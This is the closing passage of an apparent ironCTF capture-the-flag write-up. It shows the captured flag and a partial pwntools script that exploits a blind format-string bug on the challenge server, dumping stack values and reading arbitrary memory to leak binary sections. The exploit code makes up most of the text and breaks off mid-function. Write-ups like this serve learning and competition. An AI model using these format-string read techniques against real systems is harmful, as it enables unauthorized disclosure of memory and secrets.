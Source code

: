 ```
$ cat flag.txt
ironCTF{Haha_You_Found_me_b1ind}
```

## Final Code
```py
#!/bin/python3
from pwn import *

context.log_level = 'INFO'
context.terminal = ['remotinator', 'vsplit', '-x']
context.arch = 'amd64'

######################################################################################

HOST = "pwn.1nf1n1ty.team"
PORT = 32739

libc = ELF('./libc.so.6')

######################################################################################

def dump_format(start, end):
    p = remote(HOST, PORT)
    payload  = ''
    for i in range(start, end):
        payload += f'{i}=%{i}$p\n'    
    p.sendlineafter(b'>>> ', payload)
    print(p.recvuntil(b'>>> ').decode())
    p.close()

def read_addr(p, addr):
    payload  = b'%7$s\x00\x00\x00\x00'
    payload += p64(addr)
    p.sendline(payload)
    return p.recvuntil(b'>>> ')[:-4]

def leak_section(start_addr, size):
    code = b''
    idx = 0
    print(f"[i] Leaking Section {hex(start_addr)} - {hex(start_addr+size)}")
    while(len(code) < size):
        try:
            res = read_addr(p, start_addr + idx)
            #print(code)
            if (res == b''):
                code += b'\x00'
            else:
                code += res[0:1]
            idx += 1
        except:
            p = remote(HOST, PORT)
            p.recvuntil(b'>>> ')
            print("[i] ADDR:", hex(start_addr+idx))
    return code

def arb_read(addr):
    content = b''
    for i in range(8):
        payload  = b'%7$s\x00\x00\x00\x00'
        payload += p64(addr + i)
        p.sendline(payload)
```
